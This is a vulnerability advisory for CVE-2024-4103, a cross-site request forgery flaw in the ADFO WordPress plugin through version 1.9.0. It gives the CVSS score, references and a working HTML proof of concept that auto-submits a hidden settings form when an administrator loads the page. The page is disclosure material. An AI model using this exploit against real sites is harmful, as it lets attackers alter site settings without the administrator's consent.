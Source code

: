 ```yaml
---
layout: page
title: CVE-2024-4103
subtitle: ADFO – Custom data in admin dashboard <= 1.9.0 - Cross-Site Request Forgery
---
```

## Description
The ADFO – Custom data in admin dashboard plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 1.9.0. This is due to missing or incorrect nonce validation on several functions hooked via the controller() function. This makes it possible for unauthenticated attackers to edit the plugin's settings via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 4.3 (Medium) - [CVSS Vector CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N)

## Affected Version
    <= 1.9.0

## PoC :
```
<html>
  <!-- Made by eneriiiii<3 / twitter.com/aaillesim -->
  <body>
    <form action="http://[ASSETS]/wp-admin/admin.php?page=admin_form&section=list-setting&dbp_id=70" method="POST">
      <input type="hidden" name="action" value="list&#45;setting&#45;save" />
      <input type="hidden" name="frontend&#95;view&#91;if&#95;textarea&#93;" value="" />
      <input type="hidden" name="frontend&#95;view&#91;type&#93;" value="TABLE&#95;BASE" />
      <input type="hidden" name="frontend&#95;view&#91;table&#95;style&#95;color&#93;" value="light" />
      <input type="hidden" name="frontend&#95;view&#91;table&#95;pagination&#95;position&#93;" value="down" />
      <input type="hidden" name="frontend&#95;view&#91;table&#95;pagination&#95;style&#93;" value="numeric" />
      <input type="hidden" name="frontend&#95;view&#91;table&#95;sort&#93;" value="icon1" />
      <input type="hidden" name="frontend&#95;view&#91;table&#95;search&#93;" value="simple" />
      <input type="hidden" name="frontend&#95;view&#91;table&#95;size&#93;" value="" />
      <input type="hidden" name="frontend&#95;view&#91;table&#95;update&#93;" value="ajax" />
      <input type="hidden" name="frontend&#95;view&#91;table&#95;export&#93;" value="" />
      <input type="hidden" name="editor&#95;table&#95;update" value="ajax" />
      <input type="hidden" name="editor&#95;table&#95;pagination&#95;style" value="numeric" />
      <input type="hidden" name="frontend&#95;view&#91;content&#95;header&#93;" value="" />
      <input type="hidden" name="frontend&#95;view&#91;content&#93;" value="" />
      <input type="hidden" name="frontend&#95;view&#91;content&#95;footer&#93;" value="" />
      <input type="hidden" name="frontend&#95;view&#91;content&#95;else&#93;" value="" />
      <input type="hidden" name="frontend&#95;view&#91;no&#95;result&#95;custom&#95;text&#93;" value="" />
      <input type="hidden" name="frontend&#95;view&#91;detail&#95;type&#93;" value="TABLE" />
      <input type="hidden" name="frontend&#95;view&#91;popup&#95;type&#93;" value="" />
      <input type="hidden" name="frontend&#95;view&#91;detail&#95;template&#93;" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Reference
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/admin-form/adfo-custom-data-in-admin-dashboard-190-cross-site-request-forgery
- https://www.cve.org/CVERecord?id=CVE-2024-4103





